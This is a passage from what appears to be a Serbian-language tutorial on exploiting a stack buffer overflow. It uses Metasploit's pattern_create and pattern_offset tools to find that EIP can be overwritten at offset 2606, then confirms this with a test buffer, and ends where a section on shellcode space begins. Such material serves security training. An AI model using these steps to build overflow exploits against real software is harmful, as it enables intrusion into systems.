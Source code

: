 ![](<../.gitbook/assets/image (26) (1) (1).png>)

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

Promenite bafer eksploita i postavite šablon i pokrenite eksploit.

Treba da se pojavi novi pad sistema, ali sa drugačijom EIP adresom:

![](<../.gitbook/assets/image (27) (1) (1).png>)

Proverite da li se adresa nalazi u vašem šablonu:

![](<../.gitbook/assets/image (28) (1) (1).png>)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 39694438
```

Izgleda da **možemo izmeniti EIP na offsetu 2606** bafera.

Proverite to izmenom bafera eksploita:

```
buffer = 'A'*2606 + 'BBBB' + 'CCCC'
```

Sa ovim baferom, EIP bi trebao da se sruši i pokazuje na 42424242 ("BBBB")

![](<../.gitbook/assets/image (30) (1) (1).png>)

![](<../.gitbook/assets/image (29) (1) (1).png>)

Izgleda da radi.

## Provera za Shellcode prostor unutar steka

600B bi trebalo da bude dovoljno za bilo koji moćan shellcode.
